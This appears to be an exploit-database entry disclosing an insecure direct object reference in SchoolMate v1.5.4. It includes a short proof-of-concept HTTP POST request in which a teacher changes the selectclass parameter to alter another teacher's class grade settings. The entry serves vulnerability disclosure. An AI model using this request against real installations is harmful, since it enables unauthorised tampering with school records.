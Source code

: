 # Exploit Title: SchoolMate v1.5.4 - Insecure Direct Object Reference(IDOR)
## Date: 4/1/2024
## Vendor Homepage: https://sourceforge.net/projects/schoolmate/files/latest/download
## Tested on: Debian Linux, Apache, Mysql
## Vendor: SchoolMate
## Version: v1.5.4
## Exploit Description:
## SchoolMate v1.5.4 suffers from IDOR - Broken Access Control Vulnerability allowing attacker teacher to update setting of class that is assigned by other teacher(horizontal privilege escalation).

## ---------------------------------POC-----------------------------
```
POST /index.php HTTP/1.1
...
aperc=10&bperc=20&cperc=30&dperc=40&page2=1&logout=&page=2&selectclass=1(CHANGE HERE)&update=1
```